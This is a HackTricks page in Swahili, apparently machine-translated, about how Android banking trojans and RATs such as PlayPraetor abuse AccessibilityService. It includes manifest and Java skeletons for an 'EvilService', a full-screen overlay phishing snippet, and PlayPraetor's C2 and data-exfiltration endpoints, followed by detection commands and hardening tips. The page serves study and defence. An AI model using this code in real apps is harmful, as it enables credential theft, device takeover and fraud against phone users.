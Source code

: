 # Android Accessibility Service Abuse

{{#include ../../banners/hacktricks-training.md}}

## Overview

`AccessibilityService` iliumbwa kusaidia watumiaji wenye ulemavu kuingiliana na vifaa vya Android. Kwa bahati mbaya, APIs hizi za **automatisering yenye nguvu** (urambazaji wa kimataifa, uandishi wa maandiko, usambazaji wa ishara, madirisha ya overlay…) zinaweza kutumika na malware kupata **udhibiti kamili wa mbali** wa simu _bila ruhusa za root_.

Trojan za benki za kisasa za Android na Trojan za Upatikanaji wa Mbali (RATs) kama **PlayPraetor, SpyNote, BrasDex, SOVA, ToxicPanda** na wengine wengi wanafuata mapishi sawa:

1. Mtu wa kijamii amshawishi mwathirika kuwezesha huduma ya upatikanaji isiyo halali (ruhusa ya *BIND_ACCESSIBILITY_SERVICE* inachukuliwa kuwa "hatari kubwa" na inahitaji hatua wazi kutoka kwa mtumiaji).
2. Tumia huduma hiyo ili
* kukamata kila tukio la UI na maandiko yanayoonekana kwenye skrini,
* kuingiza ishara za bandia (`dispatchGesture`) na vitendo vya kimataifa (`performGlobalAction`) ili automatishe kazi yoyote anayotaka opereta,
* kuchora overlays za skrini nzima juu ya programu halali kwa kutumia aina ya dirisha **TYPE_ACCESSIBILITY_OVERLAY** (hakuna onyo la `SYSTEM_ALERT_WINDOW`!),
* kimya kimya kutoa ruhusa za ziada za wakati wa kukimbia kwa kubofya kwenye mazungumzo ya mfumo kwa niaba ya mwathirika.
3. Kutolea data au kufanya **On-Device-Fraud (ODF)** kwa wakati halisi wakati mtumiaji anatazama skrini ambayo ni ya kawaida kabisa.

---

## Requesting the permission
```xml
<!-- AndroidManifest.xml -->
<service
android:name="com.evil.rat.EvilService"
android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
android:exported="false">

<intent-filter>
<action android:name="android.accessibilityservice.AccessibilityService" />
</intent-filter>

<meta-data android:name="android.accessibilityservice"
android:resource="@xml/evil_accessibility_config"/>
</service>
```
XML ya mshirika inaelezea jinsi mazungumzo ya uwongo yatakavyokuwa:
```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
android:description="@string/service_description"
android:accessibilityEventTypes="typeAllMask"
android:accessibilityFeedbackType="feedbackGeneric"
android:notificationTimeout="200"
android:canPerformGestures="true"
android:canRetrieveWindowContent="true"/>
```
---

## Msingi wa automatisering ya UI ya mbali
```java
public class EvilService extends AccessibilityService {
@Override
public void onAccessibilityEvent(AccessibilityEvent event) {
// harvest text or detect foreground app change
}

// Simulate HOME / BACK / RECENTS …
private void navHome()     { performGlobalAction(GLOBAL_ACTION_HOME); }
private void navBack()     { performGlobalAction(GLOBAL_ACTION_BACK); }
private void openRecents() { performGlobalAction(GLOBAL_ACTION_RECENTS); }

// Generic tap / swipe
public void tap(float x, float y) {
Path p = new Path(); p.moveTo(x, y);
GestureDescription.StrokeDescription s = new GestureDescription.StrokeDescription(p, 0, 50);
dispatchGesture(new GestureDescription.Builder().addStroke(s).build(), null, null);
}
}
```
Kwa kutumia APIs hizi mbili tu, mshambuliaji anaweza:
* Kufungua skrini, kufungua programu ya benki, kuhamasisha mti wa UI wake na kuwasilisha fomu ya uhamisho.
* Kukubali kila sanduku la ruhusa linalojitokeza.
* Kuweka/update APK za ziada kupitia dhamira ya Play Store.

---

## Mifumo ya Unyanyasaji

### 1. Ulaghai wa Overlay (Kukusanya Taarifa za Utambulisho)
`WebView` ya uwazi au isiyo ya uwazi inaongezwa kwenye meneja wa dirisha:
```java
WindowManager.LayoutParams lp = new WindowManager.LayoutParams(
MATCH_PARENT, MATCH_PARENT,
TYPE_ACCESSIBILITY_OVERLAY,                      // ⬅ bypasses SYSTEM_ALERT_WINDOW
FLAG_NOT_FOCUSABLE | FLAG_NOT_TOUCH_MODAL,       // touches still reach the real app
PixelFormat.TRANSLUCENT);
wm.addView(phishingView, lp);
```
Mtu waathirika anaandika taarifa za kuingia kwenye fomu ya uwongo wakati programu ya nyuma inapokea ishara hizo hizo – hakuna onyo la "draw over other apps" linaloonekana.

> Mfano wa kina: sehemu ya *Accessibility Overlay Phishing* ndani ya ukurasa wa Tapjacking.

### 2. Uhalifu wa Otomatiki kwenye Kifaa
Familia za malware kama **PlayPraetor** zinaweka channel ya WebSocket inayodumu ambapo opereta anaweza kutoa amri za kiwango cha juu (`init`, `update`, `alert_arr`, `report_list`, …). Huduma hiyo inatafsiri amri hizo kuwa ishara za kiwango cha chini hapo juu, ikifanikisha shughuli zisizoidhinishwa za wakati halisi ambazo kwa urahisi hupita uthibitishaji wa hatua nyingi uliofungwa kwa kifaa hicho.

### 3. Utiririshaji wa Skrini & Ufuatiliaji
Kwa kuunganisha **MediaProjection API** na maktaba ya mteja wa RTMP, RAT inaweza kutangaza framebuffer ya moja kwa moja kwa `rtmp://<c2>:1935/live/<device_id>`, ikimpa mpinzani ufahamu kamili wa hali wakati injini ya Accessibility inasababisha UI.

---

## PlayPraetor – mtiririko wa amri & udhibiti

1. **HTTP(S) heartbeat** – piga duru kwenye orodha iliyoandikwa kwa mkono hadi kikoa kimoja kijibu `POST /app/searchPackageName` na C2 inayofanya kazi.
2. **WebSocket (bandari 8282)** – amri za JSON za pande mbili:
* `update` – peleka mipangilio mipya/APKs
* `alert_arr` – tengeneza templeti za overlay
* `report_list` – tuma orodha ya majina ya pakiti yaliyolengwa
* `heartbeat_web` – keep-alive
3. **RTMP (bandari 1935)** – utiririshaji wa skrini/video wa moja kwa moja.
4. **REST exfiltration** –
* `/app/saveDevice` (alama ya kidole)
* `/app/saveContacts` | `/app/saveSms` | `/app/uploadImageBase64`
* `/app/saveCardPwd` (taarifa za benki)

**AccessibilityService** ni injini ya ndani inayogeuza amri hizo za wingu kuwa mwingiliano wa kimwili.

---

## Kugundua huduma za upatikanaji zenye uharibifu

* `adb shell settings get secure enabled_accessibility_services`
* Mipangilio → Upatikanaji → *Huduma zilizopakuliwa* – angalia programu ambazo **sio** kutoka Google Play.
* Mifumo ya MDM / EMM inaweza kutekeleza `ACCESSIBILITY_ENFORCEMENT_DEFAULT_DENY` (Android 13+) kuzuia huduma zilizopakuliwa.
* Changanua huduma zinazofanya kazi:
```bash
adb shell dumpsys accessibility | grep "Accessibility Service"
```

---

## Mapendekezo ya kuimarisha kwa waendelezaji wa programu

* Alama maoni nyeti kwa `android:accessibilityDataSensitive="accessibilityDataPrivateYes"` (API 34+).
* Changanya `setFilterTouchesWhenObscured(true)` na `FLAG_SECURE` ili kuzuia utekaji wa tap/overlay.
* Gundua overlays kwa kupiga kura `WindowManager.getDefaultDisplay().getFlags()` au API ya `ViewRootImpl`.
* Kata kufanya kazi wakati `Settings.canDrawOverlays()` **au** huduma ya Upatikanaji isiyoaminika inafanya kazi.

---

## Marejeleo
* [PlayPraetor’s evolving threat: How Chinese-speaking actors globally scale an Android RAT](https://www.cleafy.com/cleafy-labs/playpraetors-evolving-threat-how-chinese-speaking-actors-globally-scale-an-android-rat)
* [Android accessibility documentation – Automating UI interaction](https://developer.android.com/guide/topics/ui/accessibility/service)

{{#include ../../banners/hacktricks-training.md}}

